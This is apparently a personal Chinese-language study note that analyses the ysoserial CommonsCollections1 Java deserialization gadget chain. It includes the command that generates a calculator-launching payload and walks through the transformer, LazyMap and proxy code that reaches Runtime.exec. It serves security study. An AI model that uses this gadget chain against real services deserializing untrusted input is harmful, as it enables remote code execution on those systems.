

Ysoserial_CommonColllections 01
Last Edited: September 25, 2024 7:56 PM
CommonsCollections1
测试使用
写了最简单基础的反序列化代码
原因：
- ysoserail直接生成的是序列化过的代码
- 想知道作用
|
|
java -jar ysoserial-all.jar CommonsCollections1 gnome-calculator > summer.bin
效果如下：

经过反序列化成功召唤了计算器
那个报错是 尝试将一个 Integer 对象转换为 Set 类型
虽然运行exit with code -1但是并不耽误其被召唤。所以错误和反序列化中召唤部分估计无关。
分析
java -jar ysoserial-all.jar CommonsCollections1 gnome-calculator > summer.bin
使用的是 CommonsCollections1
|
|
第一部分：
|
|
-
ConstantTransformer和ChainedTransformer定义
1 2 3 4 5 6public ConstantTransformer(Object constantToReturn) { this.iConstant = constantToReturn; } public ChainedTransformer(Transformer[] transformers) { this.iTransformers = transformers; }
这个套娃和层次令人感动：
- Transformer transformerChain
- ChainedTransformer
- Transformer[]
- ConstantTransformer
- Transformer[]
- Transformer[] transformers
- Transformer[]
- ConstantTransformer
- Runtime.class
- InvokerTransformer
- getMethod
- Object[]
- getRuntime
- InvokerTransformer
- invoke
- InvokerTransformer
- exec
- ConstantTransformer
- ConstantTransformer
对比可以看出，
Transformer transformerChain 是一个数组，里面有一个元素
Transformer[] transformers 是一个反射调用类的方法数组， 反射调用Runtime
第二部分
|
|
-
LazyMap相关
1 2 3 4 5 6 7 8 9 10 11 12public static Map decorate(Map map, Transformer factory) { return new LazyMap(map, factory); } protected LazyMap(Map map, Transformer factory) { super(map); if (factory == null) { throw new IllegalArgumentException("Factory must not be null"); } else { this.factory = factory; } }
前两个Map类实例对象就是分别创建了一个Map
- innerMap——-HashMap
- lazyMap——LazyMap，用innerMap和（第一部分）transformerChain装饰（创建）
两者的writeObject、readObject、get方法存在差别。
HashMap更多的是对key和value的处理，LazyMap是对一个Map类对象的处理。
-
Gadgets相关
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17public static <T> T createMemoitizedProxy(Map<String, Object> map, Class<T> iface, Class<?>... ifaces) throws Exception { return createProxy(createMemoizedInvocationHandler(map), iface, ifaces); } public static InvocationHandler createMemoizedInvocationHandler(Map<String, Object> map) throws Exception { return (InvocationHandler)Reflections.getFirstCtor("sun.reflect.annotation.AnnotationInvocationHandler").newInstance(Override.class, map); } public static <T> T createProxy(InvocationHandler ih, Class<T> iface, Class<?>... ifaces) { Class<?>[] allIfaces = (Class[])((Class[])Array.newInstance(Class.class, ifaces.length + 1)); allIfaces[0] = iface; if (ifaces.length > 0) { System.arraycopy(ifaces, 0, allIfaces, 1, ifaces.length); } return iface.cast(Proxy.newProxyInstance(Gadgets.class.getClassLoader(), allIfaces, ih)); }
mapProxy则实例化了一个通过反射创建的实例在内作为参数的Proxy：
能够根据传递的映射
map来执行方法调用，并可能实现某种记忆化（缓存）行为。
第三部分
|
|
-
Gadgets相关
1 2 3public static InvocationHandler createMemoizedInvocationHandler(Map<String, Object> map) throws Exception { return (InvocationHandler)Reflections.getFirstCtor("sun.reflect.annotation.AnnotationInvocationHandler").newInstance(Override.class, map); }
handler是一个指定类实例，指定的Proxy实例作为参数,，也即是上面第二部分的mapProxy
第四部分
|
|
-
Reflections相关
对Object的value进行设置
1 2 3 4 5 6 7 8 9public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception { Field field = getField(obj.getClass(), fieldName); field.set(obj, value); } public void set(Object obj, Object value) throws IllegalArgumentException, IllegalAccessException { getFieldAccessor(obj).set(obj, value); }
final
handler是最终返回的一个结果，
- 通过mapProxy创建
- 通过lazyMap创建
- transformerChain创建
- 通过Reflections.setFieldValue更新transformerChain的内容
- transformerChain创建
- 通过lazyMap创建
前面一直在提一个“指定的类”，就是sun.reflect.annotation.AnnotationInvocationHandler，不过无所谓，反正最后会被序列化，进行反序列化的是handler
CommonsCollections2
|
|
大同小异的，这个使用的是队列（优先）。
后面的几个commonsCollections系列的也大同小异。思路是一致的。
Final 1.0
虽然简单来说是使用最经典的反射+反序列化来实现的，但具体来看还是比较复杂的。
其中用数组或者队列来显式或者隐式调用Runtime.class，使之在反序列化后按照一定顺序执行最终实现危险调用的实现，very funny。